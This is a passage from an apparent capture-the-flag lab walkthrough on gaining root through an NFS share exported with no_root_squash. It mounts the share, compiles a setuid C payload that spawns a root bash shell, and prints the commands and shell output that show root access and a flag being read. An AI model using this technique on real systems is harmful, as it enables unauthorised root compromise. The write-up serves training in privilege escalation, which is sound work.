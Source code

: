 We have found some useful information in the `/etc/exports` file. We can see that some of the shares have the `no_root_squash` option, this is good because that means that we can create files to be executed as root if we modify them in our client machine. We can expect that `/home/backup`, `tmp`, and `/home/ubuntu` are mountable shares, from our `attack` machine let's check:

```
$ showmount -e 10.10.242.200
Export list for 10.10.242.200:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

Awesome, let's attempt to mount the `/home/ubuntu/sharedfolder` share on our attacker machine:

```
$ mkdir /tmp/sharedfolder
$ mount -o rw 10.10.242.200:/home/ubuntu/sharedfolder  /tmp/sharedfolder
```

Now let's create our payload main.c:

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}

```

Compile it:

```
$ gcc main.c -o pwned -w
```

Let's copy it and modify the permissions:

```
$ cp pwned /tmp/sharedfolder
$ sudo chown root:root /tmp/sharedfolder/pwned
$ sudo chmod +s /tmp/sharedfolder/pwned
```

Now let's run it!

```
karen@ip-10-10-242-200:/home/ubuntu/sharedfolder$ whoami
karen
karen@ip-10-10-242-200:/home/ubuntu/sharedfolder$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
karen@ip-10-10-242-200:/home/ubuntu/sharedfolder$ ls -lh
total 16K
-rwsr-sr-x 1 root root 16K Nov 11 12:44 pwned
karen@ip-10-10-242-200:/home/ubuntu/sharedfolder$ ./pwned 
root@ip-10-10-242-200:/home/ubuntu/sharedfolder# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-242-200:/home/ubuntu/sharedfolder# cat /home/matt/flag7.txt
```
